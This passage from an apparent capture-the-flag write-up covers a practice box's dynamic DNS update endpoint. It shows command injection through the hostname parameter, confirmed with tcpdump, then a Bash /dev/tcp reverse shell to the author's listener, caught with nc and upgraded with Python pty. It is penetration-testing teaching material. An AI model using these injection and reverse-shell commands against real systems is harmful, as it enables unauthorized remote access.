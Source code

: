    
    
    oxdf@parrot$ curl -G --data-urlencode 'hostname=$(ping -c 1 168431112).no-ip.htb' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
    911 [nsupdate failed]
    

At `tcpdump`:

    
    
    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    14:41:19.902625 IP 10.10.10.244 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 64
    14:41:19.902652 IP 10.10.14.8 > 10.10.10.244: ICMP echo reply, id 1, seq 1, length 64
    14:41:19.929024 IP 10.10.10.244 > 10.10.14.8: ICMP echo request, id 2, seq 1, length 64
    14:41:19.929042 IP 10.10.14.8 > 10.10.10.244: ICMP echo reply, id 2, seq 1, length 64
    

That’s actually two pings, so the injection must have taken place twice.

### Shell

To get a shell, I’ll use the standard Bash reverse shell, just using my IP in
decimal form:

    
    
    oxdf@parrot$ curl -G --data-urlencode 'hostname=$(/bin/bash -c "bash -i >& /dev/tcp/168431112/443 0>&1").no-ip.htb' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
    

It hangs, but at a listening `nc`, there’s a shell as www-data (as expected):

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.244] 37680
    bash: cannot set terminal process group (716): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@dynstr:/var/www/html/nic$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I’ll upgrade the shell using the standard trick with Python:

    
    
    www-data@dynstr:/var/www/html/nic$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    www-data@dynstr:/var/www/html/nic$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@dynstr:/var/www/html/nic$
    
